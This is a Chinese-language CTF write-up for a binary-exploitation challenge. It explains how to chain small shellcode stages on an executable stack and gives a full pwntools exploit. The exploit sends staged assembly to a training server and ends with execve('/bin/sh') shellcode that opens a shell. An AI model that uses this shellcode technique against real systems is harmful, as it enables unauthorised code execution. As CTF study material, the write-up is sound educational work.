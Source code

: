 ```yaml
---
title: cbctf2023 - The Legend of Shellcode
date: 2024/4/22 00:35:00
tags:
    - shellcode
excerpt: 通过构造shellcode并利用堆栈控制，成功实现对目标程序的远程代码执行。
---
```


## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |off   |
|PIE   |on    |
|strip |no    |
|libc  |2.31-0ubuntu9.12|

## 解题思路

nx没开，栈上放了一堆`ret`，一运行就是`pop rip`，那么控制好rsp，就能让rip跳到下一个read的段；
由于我想的是`add rax,0x10;push rax`的方式移动rip，因此读入9字节，只剩4字节空间了，不适合放"/bin/sh"
字符串，因此考虑在初始读入的位置搓一个`SYSCALL_read`出来方便读入完整的shellcode（打newstar ctf打的），
再跳转过去就可以拿到shell

> 赛后交流发现short jmp所耗字节更少，还是疏忽了

## EXPLOIT

```python
from pwn import *
context.arch = 'amd64'

def payload(lo:int):
    if lo:
        sh = process('./code')
        if lo & 2:
            gdb.attach(sh, gdbscript='b *$rebase(0x13b7)')
    else:
        sh = remote('training.0rays.club', 10004)

    # section 1
    shc = asm('''
    push rax
    xor rdi,rdi
    add rax,0x10
    push rax
    ''')
    sh.send(shc)

    # section 2
    shc = asm('''
    pop rbx
    mov rdx,r11
    add rax,0x10
    push rax
    ''')
    sh.send(shc)

    # section 3
    shc = asm('''
    push rbx
    pop rsi
    push rbx
    xor rax,rax
    syscall
    ret
    ''')
    sh.send(shc)

    # skipping rest
    sh.sendlineafter(b'sh:', b'')
    sh.sendlineafter(b'ht:', b'')
    sh.sendlineafter(b'ul:',b'')
    

    # section SYSCALL_read
    shc = asm('''
    mov rbx, 0x68732f6e69622f
    push rbx
    push rsp
    pop rdi
    xor rsi,rsi
    xor rdx, rdx
    push 0x3b
    pop rax
    syscall
    ''')
    sh.sendlineafter(b'ru', shc)

    sh.interactive()
```

